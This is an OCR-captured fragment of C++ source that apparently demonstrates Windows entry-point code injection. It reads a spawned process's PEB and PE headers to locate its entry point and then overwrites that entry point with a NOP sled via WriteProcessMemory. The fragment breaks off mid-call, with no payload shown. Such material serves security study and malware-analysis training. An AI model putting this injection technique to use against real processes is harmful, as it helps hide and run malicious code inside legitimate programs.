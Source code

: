 ```c
	     pi.hProcess,
	     0, // ProcessBasicInformation
	     &pbi,
	     sizeof(pbi),
	     &retlen
	 );
	 
	if (status != 0) {
		std::cerr << "Error obtaining process information" << std::endl;
		return -1;
	}
	
	std::cout << "[2] PEB is in 0x" << pbi.PebBaseAddress << std::endl;
	//Buffer to store the address
	BYTE buf1[8] = { 0 };
	SIZE_T bytesRead = 0;
	// 3 -- Extract ImageBaseAddress
	if (!ReadProcessMemory(
		pi.hProcess,
		(PBYTE)pbi.PebBaseAddress + 0x10, //PEB address + 0x10 offset
		buf1,
		sizeof(buf1),
		&bytesRead))
	{
		std::cerr << "Error reading memory from the process." << std::endl;
		return -1;
	}
	PVOID imageBaseAddress = *(PVOID*)buf1;
	std::cout << "[3] The Image Base Address is 0x" << imageBaseAddress << std::endl;
	// We read the 512 bytes of memory starting from the imageBaseAddress of the PEthat we obtained previously
	BYTE buf2[0x200] = { 0 };
	 if (!ReadProcessMemory(
	     pi.hProcess,
	     imageBaseAddress,
	     buf2,
	     sizeof(buf2),
	     &bytesRead))
	 {
	     std::cerr << "Error al leer la cabecera del PE." << std::endl;
	     return -1;
	 }
		//4 -- Obtain the e_lfanew field (offset 0x3C) from the DOS header, which gives the offset to the PE header (NT Headers).
		DWORD e_lfanew = *(DWORD*)(buf2 + 0x3c);
		//4 -- Obtain the AddressOfEntryPoint RVA (offset e_lfanew + 0x28) from the Optional Header in the PE header.
		DWORD entryPointRVA = *(DWORD*)(buf2 + e_lfanew + 0x28);
		//4 --  Transform the RVA to a real memory address by adding it to the imageBaseAddress
		PVOID entryPointAddr = (PBYTE)imageBaseAddress + entryPointRVA;
		
	 std::cout << "[4] EntryPoint is in 0x" << entryPointAddr << std::endl; 
	 BYTE nopSled[460];
	memset(nopSled, 0x90, sizeof(nopSled)); // Fill the array with NOP instructions
	
	// 5 -- Write the NOP sled into the EntryPoint
	SIZE_T bytesWritten = 0;
	if (!WriteProcessMemory(
	    pi.hProcess,
	    entryPointAddr,
	    nopSled,
	    sizeof(nopSled),
	    &bytesWritten))
```